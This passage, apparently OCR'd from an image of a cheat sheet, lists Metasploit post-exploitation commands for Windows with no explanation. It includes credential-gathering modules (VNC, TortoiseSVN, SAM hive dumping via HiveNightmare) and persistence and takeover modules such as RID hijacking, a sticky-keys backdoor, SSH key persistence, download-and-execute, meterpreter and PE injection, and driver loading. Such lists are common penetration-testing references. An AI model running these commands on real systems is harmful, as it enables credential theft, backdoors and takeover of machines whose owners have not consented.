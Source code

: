 run post/windows/gather/credentials/tortoisesvn

run post/windows/gather/credentials/total_commander

run post/windows/gather/credentials/trillian

run post/windows/gather/tcpnetstat

run post/windows/gather/credentials/vnc

run post/windows/gather/credentials/windows_sam_hivenightmare

run post/windows/gather/word_unc_injector

## Windows Manage Modules

run post/windows/manage/archmigrate

run post/windows/manage/remove_host

run post/windows/manage/rid_hijack

run post/windows/manage/clone_proxy_settings

run post/windows/manage/mssql_local_auth_bypass

run post/windows/manage/rpcapd_start

run post/windows/manage/dell_memory_protect

run post/windows/manage/multi_meterpreter_inject

run post/windows/manage/download_exec

run post/windows/manage/nbd_server

run post/windows/manage/driver_loader

run post/windows/manage/peinjector

run post/windows/manage/enable_support_account

run post/windows/manage/sshkey_persistence

run post/windows/manage/exec_powershell

run post/windows/manage/powershell/build_net_code

run post/windows/manage/sticky_keys

run post/windows/manage/execute_dotnet_assembly

run post/windows/manage/powershell/exec_powershell

run post/windows/manage/forward_pageant

run post/windows/manage/powershell/load_script

run post/windows/manage/vss

run post/windows/manage/hashcarve

run post/windows/manage/pptp_tunnel
